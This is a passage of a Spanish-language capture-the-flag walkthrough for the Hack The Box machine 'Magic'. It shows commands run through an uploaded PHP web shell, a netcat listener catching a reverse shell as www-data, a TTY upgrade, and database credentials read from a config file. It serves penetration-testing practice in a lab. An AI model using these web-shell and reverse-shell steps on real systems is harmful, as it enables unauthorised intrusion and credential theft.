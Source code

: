 > http://magic.htb/images/uploads/imagen.php.png?cmd=php /tmp/z3r0.php

## Shell como el usuario www-data.

```console
intrusionz3r0@Kali:~$ nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.7] from magic.htb [10.10.10.185] 36302
Linux ubuntu 5.3.0-42-generic #34~18.04.1-Ubuntu SMP Fri Feb 28 13:42:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 12:58:36 up  3:00,  0 users,  load average: 0.02, 0.08, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@ubuntu:/$
```

Luego de obtener una shell interactiva, comienzo la fase de enumeración.

Si nos vamos a `var/www/Magic` encontraremos un archivo llamado `db.php5`, dentro almacena unas credenciales.

```console
www-data@ubuntu:/var/www/Magic$ cat db.php5
...
...
    private static $dbName = 'Magic' ;                                                                                                                                   
    private static $dbHost = 'localhost' ;                                                                                                                               
    private static $dbUsername = 'theseus';                                                                                                                              
    private static $dbUserPassword = 'iamkingtheseus';
...
...
```

Rápidamente intento loguearme en mysql pero al parecer no esta instalado.

```console
www-data@ubuntu:/var/www/Magic$ mysql

Command 'mysql' not found, but can be installed with:

apt install mysql-client-core-5.7   
apt install mariadb-client-core-10.1

Ask your administrator to install one of them.
```
Si revisamos los puertos locales.
